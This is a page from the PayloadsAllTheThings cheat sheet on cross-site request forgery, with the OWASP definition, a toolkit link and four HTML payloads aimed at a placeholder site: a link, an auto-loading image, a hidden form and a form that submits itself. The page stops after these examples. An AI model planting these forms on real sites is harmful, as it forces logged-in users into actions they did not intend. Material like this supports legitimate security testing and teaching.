

repository: swisskyrepo/PayloadsAllTheThings · page: Cross-Site Request Forgery/index.html · generator: mkdocs

# Cross-Site Request Forgery

> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [HTML GET - Requiring User Interaction](#html-get---requiring-user-interaction)
    * [HTML GET - No User Interaction](#html-get---no-user-interaction)
    * [HTML POST - Requiring User Interaction](#html-post---requiring-user-interaction)
    * [HTML POST - AutoSubmit - No User Interaction](#html-post---autosubmit---no-user-interaction)
    * [HTML POST - multipart/form-data With File Upload - Requiring User Interaction](#html-post---multipartform-data-with-file-upload---requiring-user-interaction)
    * [JSON GET - Simple Request](#json-get---simple-request)
    * [JSON POST - Simple Request](#json-post---simple-request)
    * [JSON POST - Complex Request](#json-post---complex-request)
* [Labs](#labs)
* [References](#references)

## Tools

* [0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe) - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.

## Methodology

![CSRF_cheatsheet](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Cross-Site%20Request%20Forgery/Images/CSRF-CheatSheet.png)

When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.

### HTML GET - Requiring User Interaction

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```

### HTML GET - No User Interaction

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

### HTML POST - Requiring User Interaction

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```

### HTML POST - AutoSubmit - No User Interaction

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```
